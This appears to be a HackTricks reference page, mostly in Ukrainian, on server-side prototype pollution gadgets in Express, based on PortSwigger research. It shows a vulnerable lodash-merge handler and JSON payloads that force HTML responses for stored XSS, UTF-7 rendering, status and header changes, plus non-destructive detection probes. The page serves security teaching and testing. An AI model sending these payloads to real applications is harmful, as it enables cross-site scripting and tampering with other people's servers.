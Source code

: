 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Serve XSS responses

**Для отримання додаткової інформації** [**перегляньте оригінальне дослідження**](https://portswigger.net/research/server-side-prototype-pollution)

### Change JSON content-type to HTML

В додатку Express, що використовує **JSON content type response** і відображає JSON:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
У цих випадках XSS зазвичай не можливий з типом вмісту JSON. Однак, з забрудненням прототипу ми можемо **заплутати Express, щоб він повертав HTML-відповідь.** Ця вразливість залежить від використання додатком **`res.send(obj)`** та використання парсера тіла з типом вмісту application/json.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
Шляхом **забруднення** **`body`** та **`_body`** властивостей, можливо змусити **Express віддавати HTML тип контенту** та відображати властивість `_body`, що призводить до збереженого XSS.

### Відображення UTF7

Можливо змусити express **відображати UTF-7 контент з**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Безпечні техніки сканування

### JSON пробіли

Наступний PP додасть атрибутам всередині JSON додатковий пробіл, що не зламає функціональність:
```json
{"__proto__":{"json spaces": " "}}
```
Тоді відображений JSON виглядатиме так:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

Наступний PP гаджет змусить сервер надіслати HTTP заголовок: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Це вимагає, щоб **модуль CORS був встановлений**

### **Метод OPTIONS**

З наступним payload можливо **сховати метод з відповіді OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Статус**

Можливо змінити **код статусу, що повертається**, використовуючи наступний PP payload:
```json
{"__proto__":{"status":510}}
```
### Помилка

Коли ви призначаєте прототипу примітив, наприклад, рядок, це призводить до **операції без дії, оскільки прототип має бути об'єктом**. Якщо ви намагаєтеся призначити об'єкт прототипу самому `Object.prototype`, це **викине виключення**. Ми можемо використовувати ці дві поведінки, щоб **виявити, чи була успішною забрудненість прототипу**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Відображене значення

Коли додаток включає об'єкт у свою відповідь, створення атрибута з **незвичайною назвою поряд з `__proto__`** може бути корисним. Зокрема, якщо **лише незвичайний атрибут повертається** у відповіді, це може вказувати на вразливість додатку:
```json
{"unusualName":"value","__proto__":"test"}
```
Крім того, у сценаріях, де використовується бібліотека, така як Lodash, встановлення властивості як через забруднення прототипу (PP), так і безпосередньо в об'єкті пропонує ще один діагностичний підхід. Якщо така властивість відсутня у відповіді, це свідчить про те, що Lodash перевіряє наявність властивості в цільовому об'єкті перед злиттям:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Дозволити крапки

Є опція в Express, яка дозволяє вам **створювати об'єкти з параметрів рядка запиту**.\
Ви безумовно можете використовувати це в ланцюжку **помилок** для експлуатації **вразливості забруднення прототипу**.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` створює об'єкт у Node.**

## Посилання

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
